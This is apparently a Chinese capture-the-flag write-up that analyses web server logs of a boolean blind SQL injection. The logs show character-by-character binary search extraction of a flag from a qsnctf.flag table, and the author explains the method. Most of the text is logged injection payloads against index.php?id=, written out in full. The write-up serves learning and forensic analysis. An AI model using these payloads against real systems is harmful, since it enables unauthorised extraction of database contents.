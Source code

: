 ```
218.26.159.30 - - [06/Mar/2023:16:33:45  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),3,1))>110 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:46  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),3,1))>109 HTTP/1.1" 200 486

......(此处省略n行)

```

一开始对此是毫无头绪的，因为以前学的盲注知识几乎忘得一干二净

因此赶紧到网络上找到了几篇文章看了一下，遂有了接下来的分析

# [](#header-1)0x02、分析  

众所周知的，ascii字符型盲注的主要原理是二分法，主要过程是：逐语句地一个个试字符串中第n个字符的ascii码值(0 <= n < 字符串长度)，对每次盲注response分析后缩小该第n个字符的可能ascii范围，反复 试探-分析-缩小范围 这个过程，最终确定第n个字符的编码值. 简单地说就是逐个字符的二分查找. 因此盲注一般花费的时间非常长，经常需要跑很久

浅浅地观察任意条目的日志，发现初步规律
```
218.26.159.30 - - [06/Mar/2023:16:33:27  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),[flag第几位字符],1))>[该位字符的尝试值] HTTP/1.1" 200 486
```

以规律分析日志，发现盲注出来的值应该是一个长度为44的字符串类型. 我们先将日志里前几个字符人工筛出来
```
第一个字符：
218.26.159.30 - - [06/Mar/2023:16:33:27  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>64 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:28  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>96 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:29  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>112 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:30  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>120 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:31  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>116 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:32  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>114 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:34  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>113 HTTP/1.1" 200 404
第二个字符：
218.26.159.30 - - [06/Mar/2023:16:33:35  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),2,1))>96 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:36  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),2,1))>112 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:37  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),2,1))>120 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:38  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),2,1))>116 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:39  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),2,1))>114 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:40  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),2,1))>115 HTTP/1.1" 200 404
第三个字符：
218.26.159.30 - - [06/Mar/2023:16:33:41  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),3,1))>96 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:42  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),3,1))>112 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:43  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),3,1))>104 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:44  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),3,1))>108 HTTP/1.1" 200 486
```